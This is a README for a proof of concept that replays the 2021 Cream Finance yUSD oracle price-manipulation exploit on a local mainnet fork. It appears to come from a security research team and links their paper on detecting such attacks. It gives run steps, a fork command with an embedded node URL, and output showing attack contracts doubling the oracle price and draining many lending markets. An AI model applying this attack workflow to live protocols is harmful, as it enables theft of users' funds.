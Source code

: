 # CREAM_ORACLE PoC

> Block: #13499798

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN


```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

- Result:

```bash
Brownie v1.16.2 - Python development framework for Ethereum

CreamProject is the active project.

Launching 'ganache-cli --port 8849 --gasLimit 880000000000 --accounts 10 --hardfork istanbul --mnemonic brownie --fork https://speedy-nodes-nyc.moralis.io/20189123bd8fd22f2ac08e16/eth/mainnet/archive/@13499797 --defaultBalanceEther 10000000000000 --chainId 1'...

Running 'scripts/gbu.py::main'...
Transaction sent: 0x9af371e792238e1c68882b9057296d5a3c28e48a1df8163f05b1f878072d3ce0
  Gas price: 0.0 gwei   Gas limit: 880000000000   Nonce: 2
  Luck.constructor confirmed   Block: 13499799   Gas used: 3180843 (0.00%)
  Luck deployed at: 0xE7eD6747FaC5360f88a2EFC03E00d25789F69291

Before The YUSD's price in cream.finance oracle: 279300989383783
Transaction sent: 0x3a1265b942688707f81cbd3adf420db3b81ae8fff0768696c9f84bcc4f367b45
  Gas price: 0.0 gwei   Gas limit: 880000000000   Nonce: 3
  Luck.luck confirmed   Block: 13499800   Gas used: 28578950 (0.00%)

After The YUSD's price in cream.finance oracle: 558660521726027


🧛 The profit list:
ETH profits:  1966.078292523257
Ypool_LP profits:  166385.4648287775
attack contract1 Luck's liquidity in cream.finance: liquidity = 25266095875700508730941, shortfall = 0
attack contract2 LuckPartner's liquidity in cream.finance: liquidity = 0, shortfall = 368876768432684334164260
CrETH cash: 0, CrETH profits: 0
The cash of crCRETH2 in cream.finance is 0.
crCRETH2 balance: 0, CRETH2 balance: 12266463816009145730493
The cash of crXSUSHI in cream.finance is 0.
crXSUSHI balance: 0, xSUSHI balance: 623760529988486822779519
The cash of crWNXM in cream.finance is 0.
crWNXM balance: 0, wNXM balance: 135402944541301517084130
The cash of crPERP in cream.finance is 0.
crPERP balance: 0, PERP balance: 447222593590652214743874
The cash of crRUNE in cream.finance is 0.
crRUNE balance: 0, RUNE balance: 418917294792442850457949
The cash of crDPI in cream.finance is 0.
crDPI balance: 0, DPI balance: 15567575750097560251951
The cash of crUNI in cream.finance is 0.
crUNI balance: 0, UNI balance: 156629158238930877722356
The cash of crUSDC in cream.finance is 0.
crUSDC balance: 0, USDC balance: 4324457152800
The cash of crFEI in cream.finance is 0.
crFEI balance: 0, FEI balance: 3817374503105485458327683
The cash of crUSDT in cream.finance is 0.
crUSDT balance: 0, USDT balance: 3780808755759
The cash of crYVCurve-stETH in cream.finance is 0.
crYVCurve-stETH balance: 0, yvCurve-stETH balance: 747480864886637652351
The cash of crGNO in cream.finance is 0.
crGNO balance: 0, GNO balance: 6937023757101307138911
The cash of crFTT in cream.finance is 0.
crFTT balance: 0, FTX Token balance: 38922154159018669294167
The cash of crYGG in cream.finance is 0.
crYGG balance: 0, YGG balance: 341681583099484551498506
The cash of crYUSD in cream.finance is 0.
crYUSD balance: 6701346099885525301, yUSD balance: 0
```

> NOTE: We can see the price of yusd in cream.finance is doubled after this expolit. 
> 
> It likes some kind of price manipulation (direct one) that was described in our paper: DeFiRanger: Detecting Price Manipulation Attacks on DeFi Applications https://arxiv.org/abs/2104.15068).

## link 

- https://twitter.com/BlockSecTeam/status/1453393444047441923

## More About:
- https://blocksecteam.com
